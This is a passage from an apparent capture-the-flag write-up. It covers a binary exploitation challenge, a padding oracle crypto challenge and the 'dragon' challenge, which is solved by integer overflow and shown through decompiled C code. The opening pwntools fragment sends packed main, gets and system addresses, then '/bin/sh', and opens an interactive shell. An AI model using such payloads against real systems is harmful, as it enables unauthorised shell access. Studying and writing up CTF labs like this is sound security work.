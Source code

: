 ```python
bin.send(p32(main_addr))
bin.send(p32(gets_addr))
bin.send(p32(system_addr))

bin.sendline("/bin/sh\x00")
bin.interactive()
```

# crypto 1

A simple Padding Oracle Attack

Check this [article](https://github.com/mpgn/Padding-oracle-attack)

# dragon (pt 75)

We use integer overflow to defeat the dragon. And then use redirection to bypass check in `SecrectFunction`.

The overview of Priest attack:
```c
int __cdecl PriestAttack(int a1, void *ptr)
{
  int v2; // eax

  do
  {
    (*(void (__cdecl **)(void *))ptr)(ptr);
    (*(void (__cdecl **)(int))(a1 + 12))(a1);
    v2 = GetChoice();
    switch ( v2 )
    {
      case 2:
        puts("Clarity! Your Mana Has Been Refreshed");
        *(_DWORD *)(a1 + 8) = 50;
        printf("But The Dragon Deals %d Damage To You!\n", *((_DWORD *)ptr + 3));
        *(_DWORD *)(a1 + 4) -= *((_DWORD *)ptr + 3);
        printf("And The Dragon Heals %d HP!\n", *((char *)ptr + 9));
        *((_BYTE *)ptr + 8) += *((_BYTE *)ptr + 9);
        break;
      case 3:
        if ( *(_DWORD *)(a1 + 8) <= 24 )
        {
          puts("Not Enough MP!");
        }
        else
        {
          puts("HolyShield! You Are Temporarily Invincible...");
          printf("But The Dragon Heals %d HP!\n", *((char *)ptr + 9));
          *((_BYTE *)ptr + 8) += *((_BYTE *)ptr + 9);
          *(_DWORD *)(a1 + 8) -= 25;
        }
        break;
      case 1:
        if ( *(_DWORD *)(a1 + 8) <= 9 )
        {
          puts("Not Enough MP!");
        }
        else
        {
          printf("Holy Bolt Deals %d Damage To The Dragon!\n", 20);
          *((_BYTE *)ptr + 8) -= 20;
          *(_DWORD *)(a1 + 8) -= 10;
```